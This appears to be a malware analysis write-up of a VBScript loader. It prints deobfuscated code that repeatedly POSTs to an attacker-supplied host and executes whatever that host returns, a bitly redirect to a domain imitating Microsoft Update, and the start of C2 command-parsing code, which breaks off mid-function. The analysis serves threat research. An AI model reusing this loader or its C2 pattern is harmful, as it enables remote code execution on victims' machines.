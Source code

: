 
<h6>This executes a following Visual Basic code, the first two functions for decode the base 64 and create a stream object for manipulate data.</h6>

```vb
<script language="vbscript">
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    
</script>
```

###### Once decoded and deobfuscated, we can see this check if pushed argument exists before launch the script, this essential due to the URL to contact is pushing in argument. This use random call for get a random number for add a random suffix with ```?topic=sXXXXX```. On the site, whatever the URL, this redirects on another code to execute.

```vb
on error resume next
randomize
if WScript.Arguments.Length>0 then
	url="http://"&WScript.Arguments.Item(0)
	set whr=CreateObject("WinHttp.WinHttpRequest.5.1")
	do while true
		rtc=""
		tpc=url&"?topic=s"&Int(1000*rnd+9000)
		whr.Open "POST",tpc,false
		whr.Send "200"
		if whr.Status=200 Then
			rtc=whr.ResponseText
		end if
		if rtc<>"" then
			Execute(rtc)
			exit do
		end if
		WScript.Sleep 180000 ' 50 min
	loop
end if
```

<h6>The new bitly link redirect to a new domain witch usurp the Microsoft update domain, this load in memory the Visual Basic code to execute</h6>

```html
<html>
<head><title>Bitly</title></head>
<body><a href="http://www.msupdatepms.xyz:8080/edit?id=WOR%2BQhmDavXldv2sjyh%2BT0j4LYqP0ZVKAenNEEfEwIjzActclow3fxmuRtjNCZL0orvVKik5oXLS5W%2Bg45HqaQ%3D%3D">moved here</a></body>
</html>
```

<h6>The first three functions of the code is for parse the code send by the C2 to execute on the PC, decode with base 64 and xor the code.</h6>

```vb
on error resume next
function NStep(cmd) 
	n=0
	t=0
	NStep=""
	ret=""
	n=InStr(1,cmd,"#")
	sUri=Mid(cmd,n+1,Len(cmd)-n)
	uri=sUri&"?topic=v"&CStr(randID())&"&session="&uID
	do while 1>0
		ret=uget(uri)
		if ret="" then
			if t=10 then
```